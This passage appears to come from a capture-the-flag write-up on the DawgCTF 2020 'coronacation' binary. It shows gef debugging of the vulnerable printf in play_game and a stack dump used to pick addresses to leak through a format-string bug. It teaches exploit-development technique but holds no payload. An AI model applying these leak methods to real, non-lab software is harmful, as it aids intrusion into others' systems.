 To determine what to leak, run `coronacation` with GDB (gef in my case), and set a breakpoint at `play_game` `printf(local_48)`:

```
# setarch $(uname -m) -R gef ./coronacation
```

> I find exploit development a bit easier (consistent addresses between sessions) by disabling ASLR with `setarch $(uname -m) -R`.  Just do not hardcode any addresses :-)

```
gef➤  gef config context.nb_lines_stack 16
gef➤  disas play_game
Dump of assembler code for function play_game:
...
   0x0000000000001421 <+116>:	mov    eax,0x0
   0x0000000000001426 <+121>:	call   0x1040 <printf@plt>
   0x000000000000142b <+126>:	movzx  edx,BYTE PTR [rip+0xf92]        # 0x23c4
...
End of assembler dump.
gef➤  b *play_game+121
Breakpoint 1 at 0x1426
gef➤  run
Starting program: /pwd/datajerk/dawgctf2020/coronacation/coronacation
Welcome to this choose your own adventure game!
You're President Ronald Drump and are tasked with leading the nation through this crisis.
So what do you want to do?
1. Close the borders.
2. Tell everyone not to panic. It's just the Fake News media freaking out.
1

Breakpoint 1, 0x0000555555555426 in play_game ()
```

After the break look at the stack:

```
0x00007fffffffe4f0│+0x0000: 0x00007fffff000a31 ("1"?)	 ← $rsp, $rdi, $r8
0x00007fffffffe4f8│+0x0008: 0x00007ffff7e797e5  →  <handle_intel.constprop+197> test rax, rax
0x00007fffffffe500│+0x0010: 0x0000000000000000
0x00007fffffffe508│+0x0018: 0x00005555555554d5  →  <__libc_csu_init+69> add rbx, 0x1
0x00007fffffffe510│+0x0020: 0x00007ffff7faa008  →  0x0000000000000000
0x00007fffffffe518│+0x0028: 0x0000000000000000
0x00007fffffffe520│+0x0030: 0x0000555555555490  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x0038: 0x0000555555555080  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x0040: 0x00007fffffffe540  →  0x0000555555555490  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe538│+0x0048: 0x0000555555555484  →  <main+14> mov eax, 0x0
0x00007fffffffe540│+0x0050: 0x0000555555555490  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x0058: 0x00007ffff7de11e3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffe550│+0x0060: 0x0000000000000000
0x00007fffffffe558│+0x0068: 0x00007fffffffe628  →  0x00007fffffffe82d  →  "/pwd/datajerk/dawgctf2020/coronacation/coronacatio[...]"
0x00007fffffffe560│+0x0070: 0x0000000100100000
0x00007fffffffe568│+0x0078: 0x0000555555555476  →  <main+0> push rbp
```
